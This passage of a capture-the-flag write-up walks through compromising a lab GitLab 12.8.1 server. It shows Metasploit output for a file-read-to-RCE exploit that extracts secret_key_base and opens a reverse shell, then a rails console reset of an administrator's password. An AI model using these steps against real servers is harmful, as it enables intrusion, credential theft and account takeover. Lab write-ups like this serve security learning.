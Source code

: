 ## Initial Foothold

Already knowing about a few accounts and the possibility to read files in arbitrarily, I was searching how to convert this LFI to an RCE, to be able to get a reverse shell in this box. After some research I have found [a Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/) that makes use of this same vulnerability to obtain the `secret_key_base` from GitLab, and, with a deserialization call in the obtained cookie, obtain a reverse shell as the running account, in this case **git**.

```bash
msf6 exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user jdoe
[*] Created project /jdoe/vWL4JJIQ
[*] Created project /jdoe/NVfFvw3v
[*] Created issue /jdoe/vWL4JJIQ/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/zurc/.msf4/loot/20210219090516_default_10.10.10.216_gitlab.secrets_242811.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /jdoe/vWL4JJIQ
[*] Deleted project /jdoe/vWL4JJIQ
[*] Attempting to delete project /jdoe/NVfFvw3v
[*] Deleted project /jdoe/NVfFvw3v
[*] Command shell session 1 opened (10.10.10.10:4444 -> 10.10.10.216:35138) at 2021-02-19 09:05:22 -0300

id
uid=998(git) gid=998(git) groups=998(git)
```

## User flag

With access to the machine, started enumerating using `linpeas.sh` from [PEAS Suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/README.md). This helped me a lot once I could learn the possibilities while exploiting a GitLab server. The script detects that the service is installed and returned some interesting information about the machine itself:

- GitLab accounts, where **dexter** (admin@example.com) is an administrator.
- We are running from a docker container, where we might be required to escape it to exploit the machine itself.

One of the possibilities listed by `linpeas.sh` is that we could change the password from any user, which was successfully done for dexter after running the commands below:

```bash
git@git:~/gitlab-rails$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.find_by(email: "admin@example.com")
=> #<User id:1 @dexter>
irb(main):002:0> user.password = "P@ssw0rd"
=> "P@ssw0rd"
irb(main):003:0> user.password_confirmation = "P@ssw0rd"
=> "P@ssw0rd"
```